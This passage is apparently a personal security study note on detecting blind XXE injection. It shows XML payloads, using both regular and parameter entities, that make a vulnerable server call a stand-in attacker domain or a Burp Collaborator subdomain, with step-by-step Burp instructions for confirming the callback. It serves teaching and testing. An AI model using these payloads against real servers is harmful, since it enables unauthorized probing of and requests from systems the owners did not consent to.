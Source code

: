 Detecting blind XXE can be done by using the same technique as [XXE to SSRF attacks](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FXXE%20Injection%2FCommon%20XXE%20Attacks%2FChained%20XXE%20to%20SSRF), but triggering the out-of-band network interaction to a system that an attacker control. For example, an attacker can define an external entity as follows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
This attack will cause the server to make HTTP request to the specified URL which the attacker can monitor for the resulting DNS lookup and HTTP request, and thereby confirming a successful blind XXE.

1. In Burp Proxy, intercept the request and modify the XML in the request body with the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
2. Right click and select **Insert Collaborator payload**  to insert a Burp Collaborator subdomain where indicated.
3. Go to the Collaborator tab, and click **Poll now**. If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
> Note: If Burp Collaborator is not available, we can use [CanaryTokens](https://canarytokens.org/generate#) and [interactsh](https://github.com/projectdiscovery/interactsh) as alternatives.
## Out-of-band Interaction via XML Parameter Entities
Sometimes, XXE attacks using regular entities are blocked due to input validation by the application or some hardening of the XML parser that is being used. In this situation, an attacker might use XML parameter entities instead, which are a special kind of XML entity which can only be reference within the DTD.

For this technique, an attacker only need to know two things:
1. The declaration of an XML parameter entity includes the percent character before the entity name: `<!ENTITY % myparameterentity "my parameter entity value" >`
2. Parameter entities are referenced using the **percent character (%)** instead of the usual ampersand (&): `%myparameterentity;`

This means, an attacker can test for blind XXE with the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
<stockCheck><productId>299</productId></stockCheck>
```